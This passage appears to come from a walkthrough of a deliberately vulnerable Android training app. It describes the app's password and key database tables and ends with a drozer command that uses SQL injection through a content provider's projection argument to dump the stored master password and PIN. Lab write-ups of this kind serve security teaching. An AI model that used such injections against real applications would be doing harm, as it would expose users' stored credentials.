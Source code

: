 ```java
    public static final String TEXT_TYPE = " TEXT";  
}
```

This class defines the schema for the **Passwords** and **Keys** tables in the database.

#### Keys Table

- **Table Name**: `Key`  
    This table is used for storing **key-related data** (e.g., passwords, PINs).
    
- **Columns**:
    
    - `Password`: The main column of the table. It seems like the **primary key**.
        
    - `pin`: This is likely associated with the user's PIN.

**SQL for Creating Keys Table**:

```sql
CREATE TABLE Key (Password TEXT PRIMARY KEY, pin TEXT)
```

This confirms that the `Key` table contains:

- A `Password` column (presumably some identifier or password string).
- A `pin` column, which seems to store PINs or secondary authentication factors.


#### Passwords Table

- **Table Name**: `Passwords`  
    This table is used for storing **password data** (e.g., for various services or accounts).
    
- **Columns**:
    
    - `_id`: Primary key for the table.
    - `service`: The name of the service for which the password is stored (e.g., Google, Facebook, etc.).
    - `username`: The username associated with the service.
    - `password`: The password for the service, stored as a **BLOB** (binary large object), likely to ensure encryption or secure storage.
    - `email`: The associated email address for the account.


**SQL for Creating Passwords Table**:

```sql
CREATE TABLE Passwords (_id INTEGER PRIMARY KEY, service TEXT, username TEXT, password BLOB, email TEXT)
```

We can fully exploit this vulnerability to list all tables in the database:

```bash
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --projection "* from key;--"
Attempting to run shell module
| Password           | pin  |
| yaypasswordyay1234 | 1234 |
```
